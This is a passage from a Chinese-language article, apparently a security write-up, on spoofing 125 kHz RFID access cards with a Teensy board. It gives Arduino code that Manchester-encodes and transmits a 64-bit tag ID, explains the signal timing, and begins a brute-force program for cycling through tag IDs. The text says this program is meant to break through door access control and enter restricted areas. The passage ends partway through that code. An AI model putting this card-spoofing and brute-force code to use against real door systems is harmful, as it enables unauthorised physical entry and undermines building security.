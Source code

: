 ```
if ((Parity % 2) == 1) return "1";
return "0";
}

void toCode(String s)
{
for(int i = 0; i < 64; i++)
{
if (s[i]=='0'){data_to_spoof[i]=0;}else{data_to_spoof[i]=1;}
}
}
void loop()
{
for(int i = 0; i < 64; i++)
{
set_pin_manchester(0, data_to_spoof[i]);
delayMicroseconds(256);
set_pin_manchester(1, data_to_spoof[i]);
delayMicroseconds(256);
}
}

```

在这里要提出的是，有可能你不理解为什么这么发送，因为它的编码为是：曼彻斯特码，所以我在这也通俗的说一下吧。

例如要发送64位数据:

```
111111111 00000 01100 00000 00000 01010 00000 00110 01001 01111 00101 00010

```

那用多少时间传送1位呢？答案是64，125khz等于512us也就是说512us转送1位，但曼彻斯特码是用2位来表示的，如果数据是1的话，曼彻斯特码为10，数据为0的话，曼彻斯特码为01。所以转送时512us转一位数据换算为曼彻斯特码转输就应该是 512us/2=256us传送一个，然而程序是把64位数据换算成曼彻斯特码发送，所以发送间隔为delayMicroseconds(256);

当我们利用Teensy进行相关的模拟操作的时候，发现实际上只要我们做相关穷举测试，或者我们可以更加快速的突破门禁系统的限制进入到受限区域，在测试的环境当中，因为读卡器并没有任何延时读取出现，所以我们可以极快的速度穷举相关的TagID，但因每种门禁都有自身的设置以及环境因素，我们不确定以下的穷举代码是否适合大家，故此我们只是以提出可行性猜想来写本文。

以下是暴力穷举测试程序代码：

```
String sStart = "1111111110000000000";
String sStop = "0";
int data_to_spoof[64];
int led = 6;
int coil_pin = 9;
int a,b,c,d;
unsigned long id;
char HexCode[8];

void setup()
{
// Serial.begin(9600);
pinMode(led, OUTPUT);
pinMode(coil_pin, OUTPUT);
digitalWrite(coil_pin, LOW);
id = 0x502E96;
}

void set_pin_manchester(int clock_half, int signal)
{
int man_encoded = clock_half ^ signal;
if(man_encoded == 1)
{
digitalWrite(coil_pin, HIGH);
}
```